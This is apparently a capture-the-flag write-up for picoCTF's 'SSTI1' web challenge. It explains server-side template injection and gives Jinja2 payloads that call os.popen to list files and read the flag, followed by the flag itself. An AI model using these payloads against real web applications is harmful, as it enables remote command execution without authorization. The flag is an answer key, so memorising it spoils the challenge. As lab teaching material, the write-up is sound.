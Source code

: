---
tags: [web]
---
# SSTI1

- **Description:** I made a cool website where you can announce whatever you want! Try it out!
I heard templating is a cool and modular way to build web apps! Check out my website here!
- **Difficulty:** Easy

---

## 🔎 Solution
This challenge revolves around exploiting a **Server-Side Template Injection (SSTI)** vulnerability.
**SSTI** occurs when user supplied input is embedded directly into server-side templates without proper sanitization. 
Many web frameworks (like Flask with Jinja2, Django,...) use templating engines to render dynamic content. 
When templates evaluate input as actual code instead of plain text, attackers can inject malicious payloads that get executed on the server. 
In severe cases, this leads to Remote Code Execution (RCE).  

The web application presented here is a simple announcement page. 
On the main page, users are prompted to enter a message, and upon submission, the site echoes the input back.
But the real question is - does it actually return exactly what we input?

To test this, I submitted the classic SSTI payload:
```
{{7*7}}
```

Instead of displaying the literal string `{{7*7}}`, the page rendered `49`
<div style={{ width: '60%', margin: '0 auto' }}>
  <img src={require("./49.png").default} style={{ width: '100%', height: 'auto' }} />
</div>

This confirms the presence of an SSTI vulnerability, as the server evaluated the expression within double curly braces.  
Next, I crafted a more advanced payload to test command execution:
```
{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}
```

The result displayed the output of the ls command on the server, revealing the following files:
<div style={{ width: '60%', margin: '0 auto' }}>
  <img src={require("./ls.png").default} style={{ width: '100%', height: 'auto' }} />
</div>

This means we now have the ability to execute arbitrary shell commands on the server.
And just like that - the contents of the flag file were returned, completing the challenge.
To retrieve the flag, I modified the payload as follows:
```
{{ config.__class__.__init__.__globals__['os'].popen('cat flag').read() }}
```

And just like that - the contents of the flag file were returned, completing the challenge.
<div style={{ width: '100%', margin: '0 auto' }}>
  <img src={require("./flag.png").default} style={{ width: '100%', height: 'auto' }} />
</div>

## 🚩Flag
> `picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_3066c7bd}`
